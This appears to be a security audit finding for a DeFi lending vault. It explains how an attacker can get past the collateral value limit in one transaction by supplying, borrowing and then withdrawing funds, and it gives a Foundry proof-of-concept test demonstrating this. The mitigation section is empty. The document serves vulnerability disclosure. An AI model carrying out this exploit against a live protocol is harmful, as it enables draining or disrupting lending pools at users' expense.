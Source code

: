 Example:

1. The collateral value limit factor is set to 90% for both collateral tokens.
2. The lent amount is 100 USDC and Alice has borrowed 90 USDC.
3. An attacker wants to borrow the remaining 10 USDC but he cant because of the checks.
4. He executes an attack in 1 transaction - he supplies 10 USDC, borrows 10 USDC and then withdraws the 10 USDC that he lent.
5. The amount borrowed is 100 USDC even though the collateral factor is 90%.

The attacker can do this to bypass the checks, this can also block calls from the AutoRange automator. Whenever a new position is sent, `_updateAndCheckCollateral()` is called, which will revert because the attacker surpassed the limits.

### Impact

The attacker can easily surpass the limits, this can also make calls from AutoRange revert because `_updateAndCheckCollateral()` is called when the position is replaced and it will revert because the limits were surpassed. The automator will fail to change the range of the positions.

### Proof of Concept

Add this to `V3Vault.t.sol`, as you can see the limits were surpassed:

```solidity
function testCollateralValueLimit() external {
        _setupBasicLoan(false);

        //set collateral value limit to 90%
        vault.setTokenConfig(address(DAI), uint32(Q32 * 9 / 10), uint32(Q32 * 9 / 10));

        vm.prank(TEST_NFT_ACCOUNT);
        vault.borrow(TEST_NFT, 8e6);

        //10 USDC were lent and 2 USDC were borrowed
        //Attacker can only borrow 1 USDC because of the collateral value limit

        //What he does is supplies 2 USDC, borrows 2 USDC and then withdraws what he lent
        _deposit(2e6, TEST_NFT_ACCOUNT_2);
        _createAndBorrow(TEST_NFT_2, TEST_NFT_ACCOUNT_2, 2e6);

        vm.prank(TEST_NFT_ACCOUNT_2);
        vault.withdraw(2e6, TEST_NFT_ACCOUNT_2, TEST_NFT_ACCOUNT_2);

        (,,uint192 totalDebtShares) = vault.tokenConfigs(address(DAI));
        console.log("The total amount of shares lent:", vault.totalSupply());
        console.log("The total amount of shares borrowed:", totalDebtShares);
    }
```

### Tools Used

Foundry

### Recommended Mitigation Steps
